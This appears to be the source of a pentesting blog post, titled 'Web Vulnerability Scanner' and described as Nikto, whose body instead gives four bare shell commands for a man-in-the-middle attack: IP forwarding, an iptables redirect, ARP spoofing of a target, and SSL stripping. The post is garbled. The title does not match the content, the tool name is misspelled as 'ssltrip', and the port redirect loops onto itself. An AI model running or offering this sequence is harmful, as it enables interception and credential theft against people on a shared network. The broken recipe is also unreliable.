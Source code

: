 ```yaml
---
layout: post
title: Web Vulnerability Scanner
categories: [Pentesting]
tags: [Kali, Linux]
description: Nikto
fullview: false
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}
